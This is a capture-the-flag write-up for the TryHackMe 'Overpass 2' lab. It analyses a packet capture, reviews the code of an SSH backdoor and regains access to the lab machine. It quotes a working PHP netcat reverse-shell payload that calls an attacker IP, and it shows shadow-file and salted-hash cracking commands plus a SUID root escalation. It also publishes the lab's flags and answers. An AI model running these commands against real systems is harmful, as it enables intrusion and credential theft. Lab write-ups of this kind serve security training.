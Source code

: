 # **THM - Overpass 2 [EN]**

Author: `adi7312`


## **Forensic - analyse the PCAP**

### 1. What was the URL of the page they used to upload a reverse shell?

Reverse shell was provided to host using *Remote File Inclusion* vulnerability, so we need to look for HTTP POST request. It is relatively easy to find.


![](p/1.png)


Answer: `/development/`


### **2. What payload did the attacker use to gain access?**


We are still inspecting the previous POST request, now we need to determine what payload was used. It is relatively easy too to do, we need to find in hex dump, php code which is responsible for reverse shell.


![](p/2.png)


Right click on it and copy it as clear text and paste it into some file.


![](p/3.png)


No we can provide the answer.

Answer: `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`


### **3. What password did the attacker use to privesc?**

To answer to this question, we need to know that netcat listener's communication is based on TCP protocol, which is unencrypted, that means we can find the password, which was used in privilege escalation, as a plain text. 

So we are looking for password in TCP stream, before the adversary entered password, he had to  used some commands for example: whoami, sudo, sudo \<command\>. After 5 minutes of inspecting packets we finally found something interesting.


![](p/4.png)


Adversary tried to list sudo commands using `sudo -l`, to get result he had to provide the password, that moment we can see below: 


![](p/5.png)


And the password itself you can find below:


![](p/6.png)


Let's copy the context of that dump to some file.


![](p/7.png)


Answer: `whenevernoteartinstant`


### **4. How did the attacker establish persistence?**


After succesful privilege escalation, the adversary put an effort to establish persistance in system using backdoor. We can see that the threat actor downloaded some backdoor called "ssh-backdoor" via GitHub. In the pcap file we can see usage of TLS (*Transport Layer Security*) protocol, which means that the adversary used ssh to connect to machine. 


![](p/8.png)



So we can make assumption that the attacker established persistance thanks to ready backdoor on GitHub.

Answer: `https://github.com/NinjaJc01/ssh-backdoor`

### **5. Using the fasttrack wordlist, how many of the system passwords were crackable?**


In previous packets, we encountered the /etc/shadow file which contains hashes of passwords. We can copy that to file *shadow.txt* and use John The Ripper to crack it. 


![](p/9.png)


Answer: `4`


## **Research - Analyse the code**

In this steep, we will need to analyse code of ssh-backdoor.

### **1. What's the default hash for the backdoor?**

Variable *Hash* constains the answer to that question.


![](p/10.png)


Answer: `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

### **2. What's the hardcoded salt for the backdoor?**

We can see that function *verifyPass* has salt as an argument.


![](p/13.png)


At the bottom of code we can see passwordHandler function, which returns *verifyPass* function with determinated salt.


![](p/12.png)


Answer: `1c362db832f3f864c8c2fe05f2002a05`



### **3. What was the hash that the attacker used? - go back to the PCAP for this!**

From the *ssh-backdoor* we can read that option *-a* is responsible for parsing hash into .go program.

So in the PCAP we are looking for something like: *ssh-backdoor -a hash*


![](p/11.png)


Answer: `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`


### **4. Crack the hash using rockyou and a cracking tool of your choice. What's the password?**

Cracking it directly with John maybe unsuccesful because of salting. Analysing the code we know that above hash is procuded with following function:

```go
func hashPassword(password string, salt string) string {
	hash := sha512.Sum512([]byte(password + salt))
	return fmt.Sprintf("%x", hash)
}
```

We will use *hashcat* utility to crack this hash (we are using mode 1710 because it corresponds to sha512(\$pass,$salt)).

Before using *hashcat* we need to save hash and salt to one file, hash and salt are separated by colon.


![](p/14.png)


Now we are running the command below:

    hashcat --force -m 1710 -a 0 hash.txt /usr/share/wordlists/rockyou.txt 


![](p/15.png)


Answer: `november16`

## **Attack - Get back in!**

### **1. The attacker defaced the website. What message did they leave as a heading?**

Navigate to site and the title will be the answer.


![](p/16.png)


Answer: `H4ck3d by CooctusClan`


### **2. Using the information you've found previously, hack your way back in!**

From the code of ssh-backdoor we know that backdoor is triggered at 2222 port. So we can connect to server via ssh.

```
ssh james@10.10.213.94 -p 2222
```
Unfortunalety, my Kali Linux for some reason didn't want to connect to that machine, so I changed machine for THM AttackBox.

### **3. What's the user flag?**


![](p/17.png)


Answer: `thm{d119b4fa8c497ddb0525f7ad200e6567}`

### **4. What's the root flag?**

First of all we can list all binaries that have SUID bit:

```
find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000 2>/dev/null
```

The most catchy utility is in /home/james directory:


![](p/18.png)


Executing it with `-p` flag give us a root.


![](p/19.png)


`Answer: thm{d53b2684f169360bb9606c333873144d}`



